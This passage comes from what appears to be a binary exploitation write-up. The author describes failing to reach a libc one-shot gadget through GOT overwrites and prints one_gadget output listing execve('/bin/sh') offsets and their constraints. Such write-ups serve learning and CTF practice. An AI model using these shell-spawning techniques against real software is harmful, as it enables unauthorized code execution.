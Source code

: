 Probably for the worse, I didnt't spend any time researching other bugs I could chain together with this one, I decided to attempt to simply return to the [one shot gadget](https://david942j.blogspot.com/2017/02/project-one-gadget-in-glibc.html), however i searched all of the calls to potential functions whose GOT table entries I could overwrite (ones who would be called between the time of our write bug being triggered and the time of our program exit) and none were viable.

There are certain pre-requirements for using the one shot gadgets as shown below:

```
one_gadget libc.so.6 -l 1                                                                                                             ryuk@shinigami-mansion
0x3ac5c execve("/bin/sh", esp+0x28, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x28] == NULL

0x3ac5e execve("/bin/sh", esp+0x2c, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x2c] == NULL

0x3ac62 execve("/bin/sh", esp+0x30, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x30] == NULL

0x3ac69 execve("/bin/sh", esp+0x34, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x34] == NULL

0x3ac8c execve("/bin/sh", eax, [esp])
constraints:
  esi is the GOT address of libc
  [eax] == NULL || eax == NULL
  [[esp]] == NULL || [esp] == NULL

0x3ac8d execve("/bin/sh", [esp], [esp+0x4])
constraints:
  esi is the GOT address of libc
  [[esp]] == NULL || [esp] == NULL
  [[esp+0x4]] == NULL || [esp+0x4] == NULL

0x5fbc5 execl("/bin/sh", eax)
constraints:
  esi is the GOT address of libc
  eax == NULL

0x5fbc6 execl("/bin/sh", [esp])
constraints:
  esi is the GOT address of libc
  [esp] == NULL
```
